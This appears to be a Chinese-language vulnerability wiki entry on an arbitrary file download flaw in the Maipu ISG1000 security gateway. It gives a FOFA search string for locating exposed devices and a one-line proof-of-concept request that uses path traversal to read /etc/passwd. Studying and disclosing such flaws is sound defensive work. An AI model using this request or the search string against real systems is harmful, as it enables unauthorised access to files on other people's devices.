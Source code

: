 # 迈普 ISG1000安全网关 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

> [!NOTE]
>
> 迈普 ISG1000安全网关

## FOFA

> [!NOTE]
>
> title="迈普通信技术股份有限公司"

## 漏洞复现

登录页面如下

![image-20210604151806596](http://wikioss.peiqi.tech/vuln/image-20210604151806596.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

请求的 POC 为

```
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![image-20210604152228481](http://wikioss.peiqi.tech/vuln/image-20210604152228481.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)